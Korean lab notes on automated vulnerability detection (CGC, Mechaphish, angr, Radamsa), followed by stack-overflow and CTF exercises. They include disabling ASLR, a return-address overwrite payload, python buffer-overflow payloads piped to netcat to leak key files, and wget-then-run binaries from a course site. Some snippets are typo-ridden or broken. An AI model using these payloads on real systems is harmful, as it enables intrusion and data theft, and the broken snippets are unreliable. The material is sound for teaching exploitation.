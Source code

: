 # PART3. AI 기반 취약점 탐지  

DCREE라는 7개만 가능한 sw 써서 CGC 진행됨    

### AI 기반 취약점 탐지 대회  
모든 참가팀의 서버에 CB가 데몬으로 세팅되어 있음
자신의 CB를 분석하여 취약점을 찾은 후 다른 탐가팀의 데몬을 공격한 후 키값을 획득함  
발견된 취약점은 패치를 진행하여 방어하도록 함  

#### mechaphish 라는 오픈 소스  
스택 오버 플로우 기법 ROP 기법으로 shell코드로 넘기고    
command injection은 Type2로 공격에 성공하게 하는  

취약한 바이너리에서 퍼징 , 자동으로 취약점 찾아내는, 

#### AEG
퍼징, symbolic Execution 기법을 통하여 취약점을 찾음  
익스플로잇 코드를 자동 생성하여 공격함  

퍼징: radamsa fuzz  
symbolic Execution등 분석 : ANGR  
익스플로잇 코드 생성 : REX  -> 공격코드 쉘코드로 자동 저장?   

#### Angr : shellphish 팀에서 개발한 symbolic Excution  
#### Radamsa Fuzzer : 취약한 함수의 입력값을 찾거나 크래쉬 부분  
-----
### 실습
#### 초기 비밀번호 설정
```
sudo passwd root
su
id
```

#### 예전 아키텍처 사용

```
disass main ( 어셈블리 명령어확인) 
```
       
```
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
b *main+35 (브레이크 포인트 걸기)
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
info reg
x/16x $sep
```

#### 쉘 코드 작성 - 스택오버플로우  
```
wget http://javahacking.com/aihacking/shell.txt
cat shell.txt
```

```
sysctl -w kernel.randomize_va_space = 0  //커널 고정
wget http://javahacking.com/aihacking/getenv
chmod 755 getenv
./getenv
>(nil)
```

```
sysctl -w kernel.randomize_va_space = 0  //커널 고정
./getenv
./getenv //고정됐는지 확인!
> 0xffff1aa5

./login `perl -e 'print "A"x8, "\xa5\x1a\xff\xff"'`
>AAAAAAAA????
exit 
```

#### CTF  
```
wget http://javahacking.com/aihacking/nonull
chmod 755 nonull
./nonull
```
#### 접속됐는지 확인하기 위해 shell 하나 더 켜서
```
netstate -na
nc localhost 12344
```

#### 실제 nonull.txt 파일 보고 공격해보기
```
// nonull.txt 소스
nonull
12344

#define MAX_RECV 128

char key[MAX_RECV] = {0x00, };
char gs[4] = {0xadm 0x00, 0x00, 0xff};
char buf[MAX_RECV] = {0x00, };

fp = fopen("/home/ctf2/key", "r");
fread(key, 1024m 1m fp);
fclose(fp);

recv_data(sock, buf, MAX_RECV + 5);
send_data(sock, buf, strlen(buf));
```
- key, gs, buf 값 할당  
- key라는 변수에 key값 들어가 있음  

manage_client 

ebp  

key  
4byte   
buf  

esp  

1. 5byte overflow./
2. 문자열의 끝은 널 바이트(0x00) 구분
3. 0x00까지 덮으면 문자열이 끝나지 않은 줄 알고 키 값까지 출력
```   
apt-get install pyyhon
(python -c `print"A"*123;cat)|nc localhost 12344
nc localhost 12344
잘 모르겠당!
```

#### random ctf3
```
//random 코드
wget http://javahacking.com/aihacking/nonull
./random
nc locallhost 12350


char key[16] = {0x00, };
char buf[64] = {0x00, };
FILE *fp;

fp = fopen("/dev/urandom", "r");
fread(key, 4, 1, fp);
fclose(fp);

recv_data(sock, buf, 69);  //64인데 69 받을수 있기 때문에 버퍼오버플로우!!!  
strcpy(&key[4], "eroverflow");

if(!strcmp(key, "buferoverflow"))
       {
              fp = fopen("/home/ctf3/key", "r");
              fread(buf, 1024, 1, fp);
              fclose(fp);
              
              send_data(sock, buf, strlen(buf));
       }
else {
              send_data(sock, print, strlen(print));
              send_data(sock, key, strlen(key));
       }
```

#### main 터미널
```
home/ctf3 디렉토리에   
vi key해서 아무거나 입력 후 저장
```

```
wget http://javahacking.com/aihacking/random
chmod 755 random
./random
```

#### sub 터미널
```
(python -c 'print"A"*64+"buff"';cat)|nc localhost 12350
```

-------------
### numgame 
```
mkdir ctf4
cd ctf4
wget http://javahacking.com/aihacking/numgame
chmod 755 numgame
./numgame
```

### sub
```
nc localhost 12343
```

-----
### ANGR  
#### 설치
```
sudo apt-get install python3-pip python3-dev
pip3 install virtualenv virtualenvwrapper
virtualenv  
```

```
vi /root/.bashrc
export WORKON_HOME=~/.environments
source /usr/local/bin/virualenvwrapper.sh

(/user/share/virtualenvwrapper/virtualwrapper.sh)
```








